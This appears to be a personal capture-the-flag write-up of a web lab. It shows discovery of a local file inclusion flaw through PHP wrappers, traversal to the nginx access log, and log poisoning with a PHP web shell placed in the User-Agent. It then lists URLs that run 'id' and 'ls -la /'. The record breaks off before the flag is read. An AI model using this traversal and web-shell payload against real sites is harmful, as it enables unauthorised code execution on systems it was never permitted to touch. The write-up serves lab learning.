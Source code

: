 
**Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.**

clicking on ABOUT US found a parameter
![[Pasted image 20230306003211.png]]

testing php wrappers and base64 worked 
![[Pasted image 20230306004355.png]]
decode index.php
![[Pasted image 20230306004446.png]]
looking for included php files
![[Pasted image 20230306004524.png]]

found admin panel path
![[Pasted image 20230306005924.png]]
![[Pasted image 20230306005946.png]]
Looks like it's some logs for different services
trying LFI on log parameter 
![[Pasted image 20230306010248.png]]
and we have a basic LFI
![[Pasted image 20230306010347.png]]
but it shows result on website
![[Pasted image 20230306015415.png]]
`http://161.35.42.119:32388/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log`
Reseting the box cos too many requests made logs so laggy
![[Pasted image 20230306020824.png]]
now that we have access to log file we can poison the logs
changing our user agent to RCE code
![[Pasted image 20230306021152.png]]
`<?php system($_GET['cmd']); ?>`

`view-source:http://159.65.87.207:30810/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=id`
![[Pasted image 20230306021221.png]]


`view-source:http://159.65.87.207:30551/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=ls%20-la%20/`
![[Pasted image 20230306023917.png]]
